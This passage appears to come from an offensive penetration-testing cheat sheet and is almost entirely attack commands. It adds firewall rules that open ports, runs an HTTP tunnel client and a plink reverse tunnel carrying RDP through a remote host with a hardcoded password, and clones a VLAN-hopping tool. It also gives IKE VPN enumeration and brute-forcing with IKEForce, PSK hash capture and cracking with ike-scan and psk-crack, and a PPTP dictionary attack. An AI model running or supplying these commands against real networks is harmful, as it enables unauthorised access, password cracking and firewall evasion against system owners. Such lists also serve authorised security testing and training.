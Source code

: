     -   netsh advfirewall firewall add rule name="1080" dir=in
        action=allow protocol=TCP localport=1080

    -   netsh advfirewall firewall add rule name="1079" dir=in
        action=allow protocol=TCP localport=1079

    -   Start the http tunnel client  
        httptunnel\_client.exe

    -   Create HTTP reverse shell by connecting to localhost port 3000  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        3000

-   VLAN Hopping

    -   git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh

-   VPN Hacking

    -   Identify VPN servers:  
        ./udp-protocol-scanner.pl -p ike $ip

    -   Scan a range for VPN servers:  
        ./udp-protocol-scanner.pl -p ike -f ip.txt

    -   Use IKEForce to enumerate or dictionary attack VPN servers:  
        pip install pyip  
        git clone <https://github.com/SpiderLabs/ikeforce.git>  
        Perform IKE VPN enumeration with IKEForce:  
        ./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  
        Bruteforce IKE VPN using IKEForce:  
        ./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w
        passwords.txt -s 1  
        Use ike-scan to capture the PSK hash:  
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP  
        Use psk-crack to crack the PSK hash  
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5
        --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
        192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key

-   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        nmap –Pn -sV -p 1723 TARGET(S)  
        PPTP Dictionary Attack  
        thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

